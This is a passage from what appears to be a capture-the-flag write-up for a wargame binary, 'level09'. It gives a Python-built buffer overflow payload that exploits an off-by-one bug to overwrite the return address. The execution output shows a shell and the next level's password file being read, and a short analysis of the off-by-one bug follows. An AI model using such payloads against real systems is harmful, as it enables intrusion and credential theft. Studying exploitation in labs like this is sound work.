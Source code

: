 <CodeBlock 
  title="Final Payload Generation"
  command='python -c "print \\"B\\"*40 + \\"\\xd4\\" + \\"\\n\\" + \\"B\\"*200 + \\"\\x8c\\x48\\x55\\x55\\x55\\x55\\x00\\x00\\" + \\"/bin/sh\\"" > /tmp/exploit'
  output={`Payload breakdown:
- Username: 40 B's + \\xd4 corruption
- Message: 200 B's + RIP overwrite + shell command
Total: Precisely crafted for RIP hijacking`}
/>

## Successful Exploitation

<CodeBlock 
  title="Exploit Execution"
  command="cat /tmp/exploit - | ./level09"
  output={`--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�
>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
$ whoami
end
$ cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`}
/>


## Live Demonstration

<AsciinemaPlayer 
  src="https://asciinema.org/a/2HaH3TuJ86PNmDWDeVzr0XcSi.js" 
  id="asciicast-2HaH3TuJ86PNmDWDeVzr0XcSi" 
/>



## Technical Deep Dive

### Off-by-One Vulnerability Analysis

:::tip **Off-by-One Mechanics**
- **Boundary Error**: Loop copies 41 chars instead of 40
- **Adjacent Corruption**: Overwrites next structure member
- **Amplification**: Small overflow enables larger overflow
- **Control Flow**: Indirect control through data corruption
:::

### Structure Manipulation
